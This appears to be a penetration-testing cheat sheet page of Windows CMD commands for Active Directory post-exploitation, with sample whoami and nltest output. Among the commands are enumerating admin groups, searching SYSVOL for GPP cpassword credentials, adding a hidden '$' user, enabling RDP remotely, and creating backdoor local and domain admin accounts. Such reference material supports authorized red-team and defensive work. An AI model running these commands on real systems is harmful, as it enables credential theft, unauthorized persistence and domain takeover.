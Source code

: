 ```yaml
---
title : "cmd"
# pre : '<i class="fas fa-code"></i> '
description : "Microsoft Command Prompt."
date : 2020-07-09T12:52:37+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CMD - Command Prompt

{{%resources fa_icon_class="far fa-file" pattern=".*(exe)"/%}}

### Show Domain Admins / Enterprise Admins

`net group "Domain Admins" /domain`

`net group "Enterprise Admins" /domain`

### Run CMD on non-domain joined machine as domain user

`runas /netonly /user:<DOMAIN>\<USER> cmd.exe`

Use the `/profile` flag for running the CMD in the context of the user explicitly on a domain joined system.

`runas /profile /user:<DOMAIN>\<USER> cmd.exe`

Or start an elevated prompt using CMD / PowerShell

`powershell -Command "Start-Process cmd -Verb RunAs"`

### Enable access to C-drive in Explorer

`subst z: c:\`

### Finding cpassword

`findstr /s /n /i /p cpassword \\<DOMAIN>\sysvol\*`

### Show privileges current user

```plain
$ whoami /all

USER INFORMATION
----------------

User Name        SID
================ =============================================
win10\johndo S-1-5-21-4192065701-4228146649-662612674-1001


GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ==================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Group used for deny only
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Group used for deny only
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON                         Well-known group S-1-5-14     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                                         Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

### List domain controllers (DC)

```cmd
$ nltest /dclist:offsec.nl

Get list of DCs in domain 'offsec.nl' from '\\DC2016.offsec.nl'.
    DC2008R2.offsec.nl [PDC]  [DS] Site: Default-First-Site-Name
      DC2016.offsec.nl        [DS] Site: Default-First-Site-Name
      DC2019.offsec.nl        [DS] Site: Default-First-Site-Name
The command completed successfully
```

### Add less visible user

Local admin required.

`net user $ LetMeIn123! /add /active:yes`

### Enable / disable Remote Desktop (RDP)

You can enable (remotely) Remote Desktop (RDP) by adjusting the register key. Tip: use 'smbexec.py' / 'wmiexec.py' to enable on remote system where RDP is not enabled. Or use the CrackMapExec module RDP see [CrackMapExec]({{< ref "tools/framework/crackmapexec" >}}).

Enable

`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`

Disable

`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f`

### Add Local Admin via CMD

Creation of the user 'NewLaForMe' - `net user NewLAForMe "NotThatStrongPassword@" /add /Y`

Adding the user to the group - `net localgroup Administrators NewLAForMe /add`

### Add Domain Admin / Enterprise Admin via CMD

Creation of the user 'NewDAForMe' - `net user NewDAForMe "NotThatStrongPassword@" /add /domain /Y`

Adding the user to the group - `net group "Domain Admins" NewDAForMe /add /domain` / `net group "Enterprise Admins" NewDAForMe /add /domain`

Set user status to Active - `net user NewDAForMe /active:yes /domain`

Set user expire date - `net user NewDAForMe /expires:07/19/23 /domain`
